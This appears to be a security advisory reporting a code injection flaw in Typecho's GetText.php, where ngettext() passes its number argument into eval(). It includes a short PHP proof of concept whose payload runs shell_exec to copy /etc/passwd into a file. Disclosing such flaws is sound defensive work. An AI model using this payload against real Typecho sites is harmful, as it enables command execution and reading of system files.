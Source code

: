 # Overview

The select_string() function in GetText.php (typecho/var/Typecho/I18n/GetText.php) is vulnerable to Code Injection. The select_string() function is a private function although it can be accessed via calling the public function `ngettext()` which calls the vulnerable function on line 357. By giving a maliciously crafted payload through the "$number" argument in the ngettext() function, it gets executed via eval() which can be used to execute system commands leading to an RCE (`shell_exec("touch poc.txt");`).

# Description

The function select_string() accepts an argument "n" which is then passed to the PHP's eval() function. The eval() function evaluates a string as PHP code, thus we can craft a malicious PHP code to pass as the argument "n" to the select_string() function which can lead to a Code Injection Vulnerability.

# Proof of Concept (Credit: [mufeedvh](https://app.huntr.dev/users/mufeedvh))

```
<?php

    // Typecho Code Injection PoC (@mufeedvh)

    include 'GetText.php';

    $typeEchoClass = new Typecho_I18n_GetText("poc.php");
    $noice = 69;
    $refer = &$noice;
    $typeEchoClass->ngettext("single", "plural", "shell_exec('cat /etc/passwd > poc.txt')", $refer);

?>
```

Place this file inside the "typecho/var/Typecho/I18n/" path (where the GetText.php file is) and execute it:

    $ php poc.php
    $ cat poc.txt

Now you will be able to see the contents of "/etc/passwd" inside the file created by the exploit.
